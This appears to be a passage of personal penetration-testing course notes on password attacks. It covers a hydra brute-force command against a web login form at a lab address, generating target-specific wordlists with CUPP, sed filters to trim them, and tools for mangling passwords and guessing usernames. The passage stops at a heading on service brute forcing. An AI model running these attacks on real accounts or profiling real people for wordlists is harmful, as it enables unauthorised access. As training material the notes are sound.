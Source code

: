 `hydra -l admin -P /usr/share/wordlists/rockyou.txt -f 94.237.62.195 -s 41370 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"`

![](../Images/Pasted%20image%2020231227205301.png)

with the found password we can login: 

![](../Images/Pasted%20image%2020231227205800.png)

## Personalized Wordlists 

### CUPP 

tool to generate wordlists based on information on the target  

using `cupp -i` you can generate a list: 

![](../Images/Pasted%20image%2020231228165054.png)

you can filter the generated list to 
- remove shorter than 8 characters
- remove no special chars 
- remove no numbers

```bash
sed -ri '/^.{,7}$/d' william.txt            # remove shorter than 8
sed -ri '/[!-/:-@\[-`\{-~]+/!d' william.txt # remove no special chars
sed -ri '/[0-9]+/!d' william.txt            # remove no numbers
```

![](../Images/Pasted%20image%2020231228165655.png)

the file is now much shorter: 

![](../Images/Pasted%20image%2020231228165736.png)

### Mangling 

we can still make many different permutations of our targeted wordlist 

**rsmangler** and **The Mentalist** are two tools that can stretch small wordlists to millions of lines long 

### Custom username wordlist

can use tools like **Username Anarchy** 

using username anarchy we can create a list of specialized usernames: 

![](../Images/Pasted%20image%2020231228170214.png)

## Service Authentication Brute Forcing 
